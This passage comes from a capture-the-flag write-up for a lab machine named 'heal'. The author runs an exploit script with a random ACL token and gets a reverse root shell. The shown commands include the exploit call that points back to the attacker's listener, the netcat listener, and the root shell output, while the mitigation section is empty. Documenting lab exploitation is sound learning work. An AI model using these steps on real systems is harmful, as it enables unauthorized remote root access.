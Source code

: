 ```terminal
[★]$ python exp.py                                                     

[-] Usage: python3 exp.py <rhost> <rport> <lhost> <lport> <acl_token>
```

The exploit takes some arguments, the one we don't have is the `acl_token`. I looked for it on the website and on burp history but couldn't find any.

Trying the exploit with a randon strings as a token actually worked!!

```terminal
python exp.py 127.0.0.1 8500 10.10.16.57 9002 asdfasdfasdfasdfasdf

[+] Request sent successfully, check your listener

```

I checked my listener and I got a root shell

```terminal
[★]$ nc -lvnp 9002
listening on [any] 9002 ...
connect to [10.10.16.57] from (UNKNOWN) [10.10.11.46] 51044
bash: cannot set terminal process group (91377): Inappropriate ioctl for device
bash: no job control in this shell
root@heal:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@heal:/#
```

## **Prevention and Mitigation**

## **References**

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
